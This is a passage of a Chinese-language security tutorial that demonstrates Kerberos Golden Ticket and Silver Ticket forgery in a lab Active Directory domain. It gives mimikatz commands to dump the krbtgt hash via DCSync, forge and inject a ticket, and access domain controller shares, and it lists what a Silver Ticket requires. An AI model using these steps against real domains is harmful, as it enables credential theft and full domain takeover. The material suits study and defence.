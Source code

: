 #### 5.2 实验流程

1\. 金票的生成需要用到 krbtgt 的密码 HASH 值，可以借助 mimikatz 来获取 krbtgt 的值：

```
lsadump::dcsync/domain:yunying.lab /user:krbtgt


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104204041548-1855717171.png)

如果已经通过其他方式获取到了 KRBTGT HASH 也可以直接进行下一步。

2\. 得到 KRBTGT HASH 之后使用 mimikatz 中的 kerberos::golden 功能生成金票 golden.kiribi，即为伪造成功的 TGT。

```
kerberos::golden /admin:administrator /domain:yunying.lab /sid:\*\*\* /krbtgt:\*\*\* /ticket:golden.kiribi


```

参数说明：

```
/admin:     伪造的用户名
/domain:    域名称
/sid:       SID值，注意是去掉最后一个-后面的值
/krbtgt:    krbtgt的HASH值
/ticket:    生成的票据名称


```

3\. 金票的使用:

通过 mimikatz 中的 kerberos::ptt 功能（Pass The Ticket）将 golden.kiribi 导入内存中:

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104204559527-1462572496.png)

4\. 已经可以通过 dir 成功访问域控的共享文件夹。

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200104204624365-1413845069.png)

这样的方式导入的票据 20 分钟之内生效，如果过期再次导入就可以，并且可以伪造任意用户。

### 0x06 Silver Tickets

#### 6.1 简介

Silver Tickets（下面称银票）就是伪造的 ST（Service Ticket），因为在 TGT 已经在 PAC 里限定了给 Client 授权的服务（通过 SID 的值），所以银票只能访问指定服务。

制作银票的条件：

```
域名称
域的SID值
域的服务账户的密码HASH（不是krbtgt，是域控）
伪造的用户名，可以是任意用户名，这里是silver


```
